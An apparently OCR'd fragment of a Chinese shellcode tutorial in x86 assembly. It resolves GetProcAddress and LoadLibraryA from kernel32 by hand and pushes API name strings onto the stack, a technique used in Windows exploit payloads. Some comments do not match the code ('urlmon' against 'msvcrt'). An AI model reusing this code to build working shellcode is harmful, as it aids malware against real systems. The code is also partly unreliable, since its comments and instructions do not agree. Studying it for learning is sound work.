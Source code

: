    found:
    ; Find the address of WinExec by using the last value of the Counter
     mov ecx, [ebp-0xC]      ; ECX = &OrdinalTable
     mov edx, [ebp-0x10]     ; EDX = &AddressTable
     mov ax,  [ecx + eax*2]  ;  AX = ordinalNumber      = [&OrdinalTable + (Counter*2)]
     mov eax, [edx + eax*4]  ; EAX = RVA GetProcAddress = [&AddressTable + ordinalNumber]
     add eax, [ebp-0x4]      ; EAX = &GetProcAddress    = RVA GetProcAddress + &kernel32.dll
     ret
    
    functions:
    # Push string "GetProcAddress",0x00 onto the stack
     xor eax, eax            ; clear eax register
     mov ax, 0x7373          ; AX is the lower 16-bits of the 32bit EAX Register
     push eax                ;   ss : 73730000 // EAX = 0x00007373 // \x73=ASCII "s"      
     push 0x65726464         ; erdd : 65726464 // "GetProcAddress"
     push 0x41636f72         ; Acor : 41636f72
     push 0x50746547         ; PteG : 50746547
     mov [ebp-0x18], esp      ; save PTR to string at bottom of stack (ebp)
     call findFunctionAddr   ; After Return EAX will = &GetProcAddress
    # EAX = &GetProcAddress
     mov [ebp-0x1C], eax      ; save &GetProcAddress
    
    ; Call GetProcAddress(&kernel32.dll, PTR "LoadLibraryA"0x00)
     xor edx, edx            ; EDX = 0x00000000
     push edx                ; null terminator for LoadLibraryA string
     push 0x41797261         ; Ayra : 41797261 // "LoadLibraryA",0x00
     push 0x7262694c         ; rbiL : 7262694c
     push 0x64616f4c         ; daoL : 64616f4c
     push esp                ; $hModule    -- push the address of the start of the string onto the stack
     push dword [ebp-0x4]    ; $lpProcName -- push base address of kernel32.dll to the stack
     mov eax, [ebp-0x1C]     ; Move the address of GetProcAddress into the EAX register
     call eax                ; Call the GetProcAddress Function.
     mov [ebp-0x20], eax     ; save Address of LoadLibraryA 
    
    
    ```
  * 通过刚刚得到的`LoadLibraryA`函数入口，加载`urlmon.dll`
    ```asm
    ; Call LoadLibraryA(PTR "urlmon")
    ;   push "msvcrt",0x00 to the stack and save pointer
     xor eax, eax            ; clear eax
     mov ax, 0x7472          ; tr : 7472
     push eax
     push 0x6376736D         ; cvsm : 6376736D
     push esp                ; push the pointer to the string
     mov ebx, [ebp-0x20]     ; LoadLibraryA Address to ebx register
     call ebx                ; call the LoadLibraryA Function to load urlmon.dll
     mov [ebp-0x24], eax     ; save Address of urlmon.dll
    ```
